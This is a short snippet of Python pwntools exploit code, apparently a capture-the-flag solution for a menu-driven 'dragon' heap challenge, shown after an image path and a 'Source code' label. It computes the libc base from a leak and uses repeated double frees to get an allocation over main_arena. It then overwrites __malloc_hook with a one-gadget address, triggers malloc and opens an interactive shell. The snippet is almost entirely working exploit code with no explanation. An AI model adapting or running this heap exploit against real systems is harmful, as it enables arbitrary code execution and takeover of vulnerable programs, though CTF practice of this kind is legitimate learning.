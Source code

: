 ```python
libc.address = leak - (libc.sym.__GI__IO_fwrite+185)  
log.info(f"LIBC base: {libc.address:#x}")  
  
def malloc(size, data):  
   io.sendlineafter(b">> ", b"1")  
   io.sendlineafter(b"Dragon's length: ", str(size).encode())  
   io.sendlineafter(b"Name your dragon: ", data)  
  
  
def free(index):  
   io.sendlineafter(b">> ", b"2")  
   io.sendlineafter(b"Dragon of choice: ", index)  
  
  
malloc(0x28, b"A"*8)
malloc(0x28, b"B"*8) 
  
free(b"0")  
free(b"1")  
free(b"0")  
malloc(0x28, p64(0x61))


malloc(0x28, b"C"*8)
malloc(0x28, b"D"*8)


malloc(0x58, b"X"*8)  
malloc(0x58, b"Z"*8)

free(b"5")  
free(b"6")  
free(b"5")  

malloc(0x58, p64(libc.sym.main_arena + 0x10))  
malloc(0x58, b"junk")  
malloc(0x58, b"junk")  
malloc(0x58, b"\x00"*64 + p64(libc.sym.__malloc_hook-36)) 
malloc(0x50, b"B"*20 + p64(libc.address+0xe1fa1)) 
malloc(0x18, b"")
  
io.interactive()
```



